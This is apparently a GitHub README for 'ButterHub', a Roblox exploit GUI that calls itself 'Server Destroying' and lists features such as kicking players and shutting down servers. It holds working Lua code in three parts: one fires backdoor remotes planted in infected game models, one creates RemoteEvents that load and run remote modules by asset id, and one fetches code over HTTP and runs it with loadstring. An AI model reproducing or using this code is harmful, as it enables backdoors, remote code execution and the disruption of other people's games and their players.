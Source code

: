 # ButterHub

## ButterHub is a Roblox ServerSided and FE exploiting GUI, this GUI consists of a Server Side and FE Version. [Our Discord Server](https://discord.gg/xWYcdnECvw)

---

<p style="font-size:40px"><strong>Main Information</strong></p>

<p style="font-size:35px"><strong>Description</strong></p>

<p style="font-size:18px">
    <span>
    <strong>
        ButterHub
    </strong>
    </span>
    <span>
    is a Roblox Exploit GUI, this GUI has many options such as <code>Commands</code>, <code>Themes</code>, <code>Player Action</code>, and <code>More</code>! ButterHub is technically a Server Destroying but Fun Roblox GUI, it states if the game has FilteringEnabled 
    </span>
    <span style="color: rgb(0,255,0)">
    <strong>Enabled (True)</strong>
    </span>
    </span>
    or
    </span>
    <span style="color: rgb(255,0,0)">
    <strong>Disabled (False)</strong>
    </span>
    <br/>
    <br/>
</p>

---

<p style="font-size:18px">
    <span style="font-size: 35px">
    <strong>Versions</strong>
    </span>
    <br/>
    <br/>
    <span style="margin-left:40px;font-size:25px;">
    <strong>SS (ServerSide)</strong>
    </span>
    <br/>
    <span>
    The ServerSide version is the most powerful as it can, <code>Kick</code>, <code>Shutdown Server</code>, <code>Run Require Scripts</code>, <code>Run Client and Server Code</code>, and <code>More</code>! The ServerSide is the <strong>Main version</strong> of ButterHub, right now it is currently in <strong style="color:rgb(0,120,255)">BETA</strong>.
    </span>
    <br/>
    <br/>
</p>

<p style="font-size:18px">
    <span style="margin-left:40px;font-size:25px;">
    <strong>FE (FilteringEnabled)</strong>
    </span>
    <br/>
    <span>
    The FE version is the average strength GUI that runs only Client Code. It does have it advantages though as it has, <code>Script Hub</code>, <code>More Options</code>, and <code>More</code>! The FE Version is the <strong>Secondary version</strong> of ButterHub it is mostly used in Exploiting instead of just games, right now it is currently <strong style="color:rgb(255,0,0)">NOT DONE</strong>.
    </span>
    <br/>
    <br/>
</p>

---

# **How to Run**

## **SS (ServerSide)**

### This one only works in some games that have the Infected Models in them, it abuses remotes to initalize it to you.
### So do not get mad if it does not work in a lot of games. It will only work in games with 1: The model, 2: Backdoor to allow you to run SS code. (How to use is stated below)

```lua
-- [[
Made by Puro,#0224 on Discord,
Join Our Discord: https://discord.gg/xWYcdnECvw
]] --

for _, Remote in ipairs(game:GetService("JointsService"):GetDescendants()) do
    if (Remote.Name:match("%^\\*")) then
        Remote:FireServer()
    end
end
```

### **How to use the SS Code part**

```lua
------------------------------------
--  Made by Puro,#0224 on Discord,
--  Join Our Discord: https://discord.gg/xWYcdnECvw
--  
--  THIS WILL ALLOW YOU TO USE THE GUI IF THE MODEL ISN'T IN THE GAME BUT YOU CAN EXECUTE SERVER CODE.
------------------------------------

local Kill = Instance.new('RemoteEvent', game:GetService('JointsService'))
Kill.Name = "%^\\Kill Event" --// It is important that "%^\\" is somewhere in the game.
local End = Instance.new('RemoteEvent', game:GetService('JointsService'))
End.Name = "%^\\*End Kill" --// It is important that "%^\\*" is somewhere in the game.
Kill.OnServerEvent:Connect(function(player, initData)
    require(11566712898)(initData)()
end)
End.OnServerEvent:Connect(function(player)
    require(11566309513).load(player.Name)
end)
```

### You then execute the first script.

## **FE (FilteringEnabled)**

### This one works in all games, but games could patch it. All you need to do is run the github Repository.

```lua
------------------------------------
--  Made by Puro,#0224 on Discord,
--  Join Our Discord: https://discord.gg/xWYcdnECvw
--  
--  THIS IS AN FE VERSION THAT CAN BE USED IN **EVERY GAME**, BUT NOT AS STRONG AS SS
------------------------------------

loadstring(game:HttpGet("github_link"), true)()
```
